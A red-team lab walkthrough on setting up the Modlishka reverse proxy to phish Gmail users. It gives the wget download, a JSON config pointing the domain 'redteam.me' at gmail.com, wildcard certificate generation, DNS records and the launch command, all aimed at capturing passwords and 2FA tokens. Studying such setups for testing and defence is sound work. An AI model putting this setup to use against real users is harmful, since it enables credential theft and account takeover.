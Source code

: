 # Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim \(MITM\) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](../../.gitbook/assets/annotation-2019-06-25-214151.png)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](../../.gitbook/assets/annotation-2019-06-25-214300.png)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](../../.gitbook/assets/annotation-2019-06-25-214425.png)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](../../.gitbook/assets/annotation-2019-06-25-214749.png)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](../../.gitbook/assets/annotation-2019-06-25-214849.png)

Once the DNS TXT record is created, continue with the certificate generation:

![](../../.gitbook/assets/annotation-2019-06-25-214924.png)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](../../.gitbook/assets/annotation-2019-06-25-215107.png)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](../../.gitbook/assets/annotation-2019-06-25-215155.png)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](../../.gitbook/assets/annotation-2019-06-25-215308.png)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](../../.gitbook/assets/annotation-2019-06-25-215702.png)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" caption="" %}

